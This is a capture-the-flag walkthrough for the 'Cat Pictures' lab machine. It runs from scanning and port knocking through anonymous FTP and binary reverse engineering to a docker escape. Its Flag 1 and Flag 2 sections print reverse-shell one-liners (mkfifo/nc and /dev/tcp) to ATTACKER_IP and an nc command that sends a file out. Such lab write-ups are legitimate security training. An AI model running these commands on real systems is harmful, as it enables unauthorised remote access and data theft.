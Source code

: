 ```yaml
---
title: "Cat Pictures"
tags:
  - Easy
  - Linux
  - nmap
  - Port Knocking
  - ftp
  - Reverse Engineering
  - docker
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

### [ Flag 1 ]

As usual, let's run an `nmap` scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are 3 open ports. There are also 2 ports which seem to be hidden behind a firewall.

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a SSH server, a HTTP Web server and an unknown service running on port 4420. The FTP server is currently inaccessible by us. There is also a docker service running on port 2375.

Let's take a look at the HTTP Web server:

![screenshot1](../assets/images/cat_pictures/screenshot1.png)

We have a forum page that is built on **phpBB**. Before we do our happy-path enumeration, let's run a `gobuster` directory scan to see if we can find any hidden directories:

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

Let's now check out the post on the webpage:

![screenshot2](../assets/images/cat_pictures/screenshot2.png)

We have a post titled 'Post cat pictures here!'. We also have an interesting message: 

`Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

Hmmmm.... '**Knock knock**' and numbers that look like port numbers.... Could this be a **port knocking** sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

![screenshot3](../assets/images/cat_pictures/screenshot3.png)

Nice! Access to the **FTP** server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside:

![screenshot4](../assets/images/cat_pictures/screenshot4.png)

**Contents of note.txt:**

![screenshot5](../assets/images/cat_pictures/screenshot5.png)

Nice, we now have a password - **sardinethecat**

The unknown service running on port **4420** turned out to be an internal shell service. Let's log into it with our newfound password:

```
nc 10.10.21.0 4420
```

![screenshot6](../assets/images/cat_pictures/screenshot6.png)

And we're in! 

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the **/bin** directory, we can see that there are only a handful of programs that are installed.

![screenshot7](../assets/images/cat_pictures/screenshot7.png)

With that in mind, let's take a look around.

![screenshot8](../assets/images/cat_pictures/screenshot8.png)

I found a binary called **runme** in the home directory of the **catlover** user. Let's try to run it.

![screenshot9](../assets/images/cat_pictures/screenshot9.png)

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

![screenshot10](../assets/images/cat_pictures/screenshot10.png)

And we're in yet again! Now we can run the `runme` binary:

![screenshot11](../assets/images/cat_pictures/screenshot11.png)

We need another password. Unfortunately, '**sardinethecat**' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

With the binary now on my local machine, I passed it to [Binary Ninja](https://cloud.binary.ninja/) to reverse engineer the code.

![screenshot12](../assets/images/cat_pictures/screenshot12.png)

Once the reverse engineering is complete, I looked at the `main()` function. As we can see, the password is actually exposed in the code - **rebecca**

Let's go back into the target machine and run `runme` again:

![screenshot13](../assets/images/cat_pictures/screenshot13.png)

We now have a **private ssh key** in catlover's home directory:

![screenshot14](../assets/images/cat_pictures/screenshot14.png)

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into SSH! *(make sure permissions of the key is either 400 or 600)*

![screenshot15](../assets/images/cat_pictures/screenshot15.png)

Great, we are now logged in as the **root** user!

![screenshot16](../assets/images/cat_pictures/screenshot16.png)

We can grab the first flag in the **/root** directory.

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that `docker` is running on port 2375? Perhaps we are currently in a docker container? We can verify this by looking for a **.dockerenv** file in the root ('/') directory.

![screenshot17](../assets/images/cat_pictures/screenshot17.png)

The file is indeed present, which confirms that we are in a docker container! Now we need to find a way to break out of the container. From past experiences, this is normally done through a script that is run as a **cronjob** by the root user outside of the container. Let's look around the machine to see if we can find such a script.

One place I looked was the **.bash_history** file:

![screenshot18](../assets/images/cat_pictures/screenshot18.png)

There's an interesting script called **clean.sh** located in **/opt/clean**. Let's check it out.

![screenshot19](../assets/images/cat_pictures/screenshot19.png)

Seems like the script is a cleaner script that removes all files in the **/tmp** directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

![screenshot20](../assets/images/cat_pictures/screenshot20.png)

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user.

![screenshot21](../assets/images/cat_pictures/screenshot21.png)

The final flag can be found in the **/root** directory.
